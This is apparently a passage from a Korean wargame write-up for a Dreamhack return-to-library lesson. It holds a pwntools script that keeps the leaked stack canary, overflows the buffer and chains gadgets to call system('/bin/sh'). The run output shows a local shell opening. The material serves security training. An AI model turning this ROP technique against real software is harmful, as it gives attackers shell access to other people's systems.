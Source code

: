 ```python

# [2] Exploit
system_plt = e.plt["system"]
slog("system@plt", system_plt)
binsh = 0x400874
pop_rdi = 0x0000000000400853
ret = 0x0000000000400596

payload = b'A'*56 + p64(canary) + b'B'*8
payload += p64(ret)
payload += p64(pop_rdi)
payload += p64(binsh)
payload += p64(system_plt)

pause()
p.sendafter("Buf: ", payload)

p.interactive()
```

<br>

실행해보면

```bash
$ python3 exploit.py
[+] Starting local process './rtl': pid 2494
[*] '/home/ion/dreamhack/Exploit_Tech_Return_to_Library/rtl'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] canary: 0xaff3a407e368f100
[+] system@plt: 0x4005d0
[*] Paused (press any to continue)
[*] Switching to interactive mode
$ ls
exploit.py  peda-session-rtl.txt  rtl  rtl.c
```

쉘이 뜹니다.

#

---

<br>

> [Exploit Tech: Return to Library
](https://dreamhack.io/lecture/courses/83)
